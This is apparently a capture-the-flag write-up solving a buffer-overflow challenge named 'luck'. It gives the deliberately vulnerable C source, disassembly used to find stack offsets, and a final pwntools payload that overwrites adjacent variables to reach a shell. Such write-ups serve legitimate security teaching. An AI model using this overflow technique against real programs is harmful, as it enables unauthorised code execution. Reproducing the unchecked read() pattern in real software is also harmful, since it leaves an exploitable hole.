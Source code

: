# Luck

Again, we being by looking at the `luck.c` file

  ```C
  
    int a = 0 , b = 1 , c = 2;
    int password = random();

    puts( "What do you want to tell me:" );
    read( 0 , &a , 100 );
    
    printf("You say: %s\n" , &a);

    if( b == 0xfaceb00c && c == 0xdeadbeef ){
        puts( "Hello hacker, now guess the password." );
        puts( "A good hacker always 100% guess right :P, are you a good hacker?" );
        printf( "password:" );

        int input;
        scanf( "%d" , &input );

        if( input == password ){
            puts( "Here is your shell!" );
            system( "sh" );
        }
        else{
            puts( "Bad Luck :(" );
            exit(0);
        }
    }    
   ```
   
This is another simple BOF question. We can see the overflow point starts from `read( 0 , &a , 100 )`.

What we need to to is to overwrite b, c, and password so that we can access to `system( "sh" )`

Let's start with our `objdump -d luck`

    400869:	c7 45 e8 00 00 00 00 	movl   $0x0,-0x18(%rbp)
    400870:	c7 45 f4 01 00 00 00 	movl   $0x1,-0xc(%rbp)
    400877:	c7 45 f8 02 00 00 00 	movl   $0x2,-0x8(%rbp)
    40087e:	e8 6d fe ff ff       	callq  4006f0 <random@plt>
    400883:	89 45 fc             	mov    %eax,-0x4(%rbp)

We can see that a is stored in `rbp - 0x18`, b is stored in `rbp - 0xc`, c is stored in `rbp - 0x8`, and password is stored in `rbp - 0x4`

So, the gap between a, b is 12 bytes (0xc), between b, c is 4 bytes (0x4), and between c, password is 4 bytes (0x4).

Therefore, our padding will need 12 bytes (0xc). b will be replaced with `0xfaceb00c`, c will be replaced with `0xdeadbeef`, and password replaced with can be anything we know.

<b>Note: Remember to send `0xfaceb00c` and `0xdeadbeef`, not string</b>

In the end, our play load will be:
  
     p.sendline(p32(0x11111111) + p32(0x11111111) + p32(0x11111111) +  p32(0xfaceb00c) + p32(0xdeadbeef) + p32(0x00000001))
